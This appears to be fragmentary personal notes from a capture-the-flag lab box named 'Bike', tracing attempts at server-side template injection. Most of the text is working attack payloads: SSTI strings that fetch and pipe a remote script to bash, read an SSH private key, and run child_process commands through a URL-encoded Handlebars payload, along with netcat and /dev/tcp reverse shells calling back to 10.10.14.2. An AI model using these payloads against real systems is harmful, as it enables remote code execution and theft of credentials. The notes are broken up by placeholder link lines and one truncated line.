

Bike
{kind=link}
{kind=link}
submit email
{kind=link}
check for sql injection
{kind=link}
trying things
{kind=link}
ssti
{kind=link}
${{request.application.globals.builtins.import("os").popen("curl -s http://10.10.14.2:88/shell | bash").read()}}
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.2 9999 >/tmp/f
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.2/7777 0>&1'
error
{{ cycler.init.globals.os.popen('id; cat ~/.ssh/id_rsa').read() }}
{{ ‘’.class.mro[2].subclasses()40.read() }}

{kind=link}
{kind=link}
not getting any where with tplmap
trying burp
return process.mainModule.require('child_process
%7B%7B#with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%7B%7B#with%20%22e%22%7D%7D%0A%20%20%20%20%7B%7B#with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.push%20(lookup%20string.sub%20%22constructor%22)%7D%7D%0A%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%7B%7B#with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20process.mainModule.require('child_process').execSync('cat%20/root/flag.txt');%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B#each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B#with%20(string.sub.apply%200%20codelist)%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B/each%7D%7D%0A%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%7B%7B/with%7D%7D%0A%7B%7B/with%7D%7D
{kind=link}